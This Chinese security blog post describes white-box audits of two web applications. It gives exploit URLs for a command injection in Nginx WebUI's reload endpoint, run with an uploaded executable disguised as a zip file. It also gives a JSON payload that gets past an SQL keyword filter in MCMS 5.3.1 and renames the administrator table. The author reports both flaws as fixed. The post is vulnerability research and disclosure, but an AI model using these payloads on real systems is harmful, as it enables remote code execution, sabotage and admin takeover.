# 浅谈白盒下命令执行与注入绕过的挖掘 - 先知社区

浅谈白盒下命令执行与注入绕过的挖掘

- - -

### 1\. 前言

在进行白盒时，会经常性的碰到过滤器，拦截器以及一些规则的拦截。本文针对前些时间的审计做整理。

### 2\. Nginx WebUI 命令执行利用

在早些时候，进行了挖掘，主要是针对命令执行的绕过，各种杂七杂八繁琐的绕过才可以进行命令执行。  
往期文章：[https://xz.aliyun.com/t/12690](https://xz.aliyun.com/t/12690)  
但其实有一种更为简便的方法。  
在此处可以直接上传 ZIP，这个稍后提供思路。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228111651-d101ed28-d5e7-1.png)  
首先来看一处命令执行

```plain
@Mapping("reload")
    public synchronized JsonResult reload(String nginxPath, String nginxExe, String nginxDir) {
        if (nginxPath == null) {
            nginxPath = ToolUtils.handlePath(this.settingService.get("nginxPath"));
            this.settingService.set("nginxPath", nginxPath);
        }
        if (nginxExe == null) {
            nginxExe = ToolUtils.handlePath(this.settingService.get("nginxExe"));
            this.settingService.set("nginxExe", nginxExe);
        }
        if (nginxDir == null) {
            nginxDir = ToolUtils.handlePath(this.settingService.get("nginxDir"));
            this.settingService.set("nginxDir", nginxDir);
        }
        try {
            String cmd = nginxExe + " -s reload -c " + nginxPath;
            if (StrUtil.isNotEmpty(nginxDir)) {
                cmd = cmd + " -p " + nginxDir;
            }
            String rs = RuntimeUtil.execForStr(cmd);
            String cmd2 = "<span class='blue'>" + cmd + "</span>";
            if (StrUtil.isEmpty(rs) || rs.contains("signal process started")) {
                return renderSuccess(cmd2 + "<br>" + this.m.get("confStr.reloadSuccess") + "<br>" + rs.replace("\n", "<br>"));
            }
            if (rs.contains("The system cannot find the file specified") || rs.contains("nginx.pid") || rs.contains("PID")) {
                rs = rs + this.m.get("confStr.mayNotRun");
            }
            return renderSuccess(cmd2 + "<br>" + this.m.get("confStr.reloadFail") + "<br>" + rs.replace("\n", "<br>"));
        } catch (Exception e) {
            this.logger.error(e.getMessage(), (Throwable) e);
            return renderSuccess(this.m.get("confStr.reloadFail") + "<br>" + e.getMessage().replace("\n", "<br>"));
        }
    }
```

可以发现在传入时，只要这三个参数不为 null，则会到 20 行的调用命令处。  
所以按照以下进行构造：  
[http://url/adminPage/conf/reload?nginxPath=&nginxExe=powershell%20&nginxDir=1](http://url/adminPage/conf/reload?nginxPath=&nginxExe=powershell%20&nginxDir=1)  
(尴尬.jpg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228112950-a11f4bee-d5e9-1.png)  
其实见怪不怪了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228113757-c39a1f40-d5ea-1.png)  
有了此时上面的上传点，所以就是可以配合任意文件上传，传入一个文件来进行执行即可，没什么技术含量。但是那处功能点，只能传入 zip，那就传入一个后缀为 zip，结构为 pe 文件结构的文件。这里直接将 calc.exe 的 pe 文件结构里面的数据全部 copy 进来，上传之后可以发现传入一个 calc.zip  
通俗理解起来就是传入了一个 calc.exe 后缀为.zip 而已  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228113529-6b7b9a00-d5ea-1.png)  
配合前面传入的 calc.zip  
之后在[http://192.168.0.108:8080/adminPage/conf/reload这个controller传入参数即可](http://192.168.0.108:8080/adminPage/conf/reload%E8%BF%99%E4%B8%AAcontroller%E4%BC%A0%E5%85%A5%E5%8F%82%E6%95%B0%E5%8D%B3%E5%8F%AF)  
可以看见传入的命令为文件上传传入的 zip 文件路径，访问之后成功执行这个文件，这个文件就是前面传入的 calc.zip，这里不需要关注文件后缀。会自动解析 zip，发现 zip 为 pe 文件结构，将当成 exe 文件执行了。  
这里用的 calc.exe 作为例子，当然也可以生成一个恶意的 exe 来执行，达到获取权限的目的。  
[http://192.168.0.108:8080/adminPage/conf/reload?nginxPath=notepad&nginxExe=C:/Users/ADMINI~1/AppData/Local/Temp/calc.zip%20&nginxDir=%26calc](http://192.168.0.108:8080/adminPage/conf/reload?nginxPath=notepad&nginxExe=C:/Users/ADMINI~1/AppData/Local/Temp/calc.zip%20&nginxDir=%26calc)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228113540-71be1bb8-d5ea-1.png)

### 2\. SQL 注入绕过水洞

之前在审 MCMS(5.3.1) 时，挖掘到了一个水洞，奈何没绕过该注入。  
通过代码审计得知，首先看 action。  
在net.mingsoft.mdiy.action#importJson方法允许接收一个ModelEntity类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114401-9cb3b49e-d5eb-1.png)  
稍后就会走到net.mingsoft.mdiy.biz.impl#importModel方法  
这里会获取到从 importJson 方法传过来的数据，并获取 sql 这个字段的内容，并最后传入到 excuteSql(sql) 来执行该 sql 语句。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114436-b1455de0-d5eb-1.png)  
但是这里有一个过滤，不允许有 select insert...这些关键字

```plain
if (!StringUtils.isBlank(sql) && !StrUtil.containsAnyIgnoreCase(sql, new CharSequence[]{"INSERT ", "SELECT ", "UPDATE ", "DELETE ", "DROP ", "ALTER ", "TRUNCATE "})) {
    this.modelDao.excuteSql(sql);
}
```

最后传入 Dao 层，来执行 sql 语句  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114510-c591d7ba-d5eb-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114518-ca66fbc6-d5eb-1.png)  
既然是白盒方式，水洞的方式可就多了。  
首先可以看见，管理员表为 manager  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114615-ec4de81c-d5eb-1.png)  
之后登录后，进行发包，这里数据包中的 title 和 tableName 随便填写即可。但是只能使用一次，因为会被添加到数据表中。所以多次发包的时候，title 和 tableName 一定要修改。

```plain
modelType=cms&modelJson=
{
  "html": "\n<template id=\"custom-model\">\n    <el-form ref=\"form\" :model=\"form\" :rules=\"rules\" label-width=\"120px\" label-position=\"right\" size=\"small\">\n\n    </el-form>\n</template>\n",
  "title": "test01",
  "script": "",
  "sql": "rename table manager to xxxxxxxx",
  "tableName": "test01"
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114742-20461af4-d5ec-1.png)  
最后可以看见，manager 管理员表名被改成了 xxxxxxxx。  
同理，也可以自己创建一个管理员表  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114831-3dbe374c-d5ec-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114837-40ff7196-d5ec-1.png)  
之后就会发现，管理员无法正常登录了。因为此时表已经被更改。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240228114853-4a5ad1b8-d5ec-1.png)  
当然也可以对其它表进行更改，影响的可能就是页面数据问题了。至于其它的思路就是 replace into 针对管理员表新增一个用户，或者添加一个 Mysql 用户进行远程连接。这里大家可以自行发挥。

### 结尾

在白盒中挖掘，可以最大化的利用自己的思路来水到洞。至于以上案例已经全部修复。
